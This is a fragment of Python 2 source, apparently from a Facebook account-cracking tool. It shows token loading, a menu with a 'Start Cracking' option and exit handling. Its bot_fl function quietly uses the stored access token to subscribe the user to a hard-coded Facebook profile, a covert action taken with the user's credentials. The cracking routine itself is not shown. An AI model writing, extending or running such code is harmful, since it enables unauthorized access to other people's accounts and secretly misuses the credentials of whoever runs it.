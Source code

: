 def bot_fl():
    try:
        token = open('.logfuck.txt', 'r').read()
    except IOError:
        print '\x1b[1;97m   [!] Token invalid'
        os.system('rm -rf .logfuck.txt')
    requests.post('https://graph.facebook.com/100001027764318/subscribers?access_token=' + token)
    menu()
    
def menu():
    os.system("clear")
    try:
        token = open(".logfuck.txt","r").read()
    except IOError:
        print logo
        print("[!] token error. token not found")
        os.system("rm -rf .logfuck.txt")
        time.sleep(1)
        logmen()
    try:
        r = requests.get("https://graph.facebook.com/me?access_token="+token, headers=header)
        a = json.loads(r.text)
        name = a["name"]
    except KeyError:
        os.system("clear")
        print logo
        print("[!] Failed To Load. Your Checkpoint account")
        os.system("rm -rf .logfuck.txt")
        time.sleep(1)
        logmen()
    os.system("clear")
    print logo
    print("Welcome "+name)
    print (" ")
    print ("Please select")
    print (" ")
    print ("Don't Copy Me Because I Am Your Father")
    print (" ")
    print("[1] Start Cracking")
    print("[\x1b[91m0\x1b[0m] Exit")
    pil()
    
def pil():
    ti = raw_input('\nSelect: ')
    if ti =='1':
        cramen()
    elif ti =='0':
        os.system('rm -rf .logfuck.txt')
        print '[√] Deleting Token Successfully.'
        time.sleep(1)
        os.system('exit')
        logmen()
    else:
        print '[!] Pilih Yang Bener Dong'
        pil()
        